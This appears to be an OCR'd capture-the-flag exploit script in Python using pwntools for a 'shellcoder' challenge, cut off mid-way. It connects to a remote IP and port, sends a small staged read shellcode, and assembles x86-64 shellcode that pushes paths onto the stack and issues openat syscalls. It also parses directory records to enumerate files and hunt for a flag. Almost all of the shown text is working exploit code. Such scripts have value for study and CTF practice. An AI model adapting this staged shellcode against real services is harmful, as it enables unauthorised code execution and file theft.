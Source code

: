 ```python
def getend(n):
	idx=0
	for x in n:
		if x=='\x00':
			return idx	
		idx+=1
	return -1
def getinfo(data,flag=0):
	d=0
	res=[]
	f=[]
	while(d<len(data)):
		reclen=ord(data[d+0x10])
		if reclen == 0:
			break 
		dtype=ord(data[d+reclen-1])
		namelen=getend(data[d+0x12:])
		if dtype==4 and data[d+0x12:d+0x12+namelen]!="." and data[d+0x12:d+0x12+namelen]!="..":
			res.append(data[d+0x12:d+0x12+namelen])
			#log.warning("DIR:%s",data[d+0x12:d+0x12+namelen])
		elif dtype!=4 and data[d+0x12:d+0x12+namelen]!="." and data[d+0x12:d+0x12+namelen]!="..":
			f.append(data[d+0x12:d+0x12+namelen])
		d+=reclen
	return res,f
def push_path(path):
	d=0
	l=len(path)
	path+=(-l%8)*'\x00'
	pad='''
	mov rsi,{}
	push rsi	
	'''
	res=''
	while(d<len(path)):
		res=pad.format(hex(u64(path[d:d+8])))+res
		d+=8
	return res
def exp(seek,flag=0):	
	#context.log_level='debug'
	#p=process('./shellcoder')
	#gdb.attach(p)
	p=remote("139.180.215.222",20002)
	context.arch='amd64'
	sh='''
	xchg rdi,rsi
	mov edx,esi
	syscall
	'''
	sh=asm(sh)
	p.sendafter(":",sh)


	#print push_path("./flag")
	#raw_input()
	sh='''
	mov ax,0x101
	mov rdi,-0x64
	{}
	mov rsi,rsp
	mov rdx,0
	mov r10,0
	syscall

```

[2]: https://cloud.tencent.com/developer/article/1143454